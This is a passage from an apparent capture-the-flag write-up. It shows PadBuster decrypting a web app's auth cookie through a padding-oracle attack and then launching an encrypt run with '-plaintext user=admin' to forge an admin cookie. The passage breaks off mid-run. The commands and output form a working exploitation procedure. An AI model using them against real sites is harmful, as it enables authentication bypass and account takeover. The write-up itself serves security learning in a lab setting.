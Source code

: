     Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.                                                        
    *** Starting Block 2 of 2 ***               

    [+] Success: (89/256) [Byte 8]              
    [+] Success: (238/256) [Byte 7]             
    [+] Success: (193/256) [Byte 6]             
    [+] Success: (44/256) [Byte 5]              
    [+] Success: (199/256) [Byte 4]             
    [+] Success: (4/256) [Byte 3]               
    [+] Success: (127/256) [Byte 2]             
    [+] Success: (72/256) [Byte 1]              

    Block 2 Results:                            
    [+] Cipher Text (HEX): 3254cadd72119dd4                                                 
    [+] Intermediate Bytes (HEX): b086fa3cd03c10a6                                          
    [+] Plain Text: f                           

    -------------------------------------------------------                                 
    ** Finished ***                             

    [+] Decrypted value (ASCII): user=0xdf      

    [+] Decrypted value (HEX): 757365723D3078646607070707070707                             

    [+] Decrypted value (Base64): dXNlcj0weGRmBwcHBwcHBw==

    -------------------------------------------------------  



It prints results for each completed block, and then a summary at the
end. The data is `user=0xdf`. Knowing what the data is, I can also
provide plaintext and it will return a valid encrypted cookie with that
plaintext. I'll add the `-plaintext user=admin` option, and run again:



    root@kali# padbuster http://10.10.10.18/index.php LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U 8 -cookies auth=LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U -encoding 0 -plaintext user=admin                      

    +-------------------------------------------+                                           
    | PadBuster - v0.3.3                        |                                           
    | Brian Holyfield - Gotham Digital Science  |                                           
    | labs@gdssecurity.com                      |                                           
    +-------------------------------------------+                                           

    INFO: The original request returned the following                                       
    [+] Status: 200                             
    [+] Location: N/A                           
    [+] Content Length: 978                     

    INFO: Starting PadBuster Encrypt Mode       
    [+] Number of Blocks: 2                     

    INFO: No error string was provided...starting response analysis                         

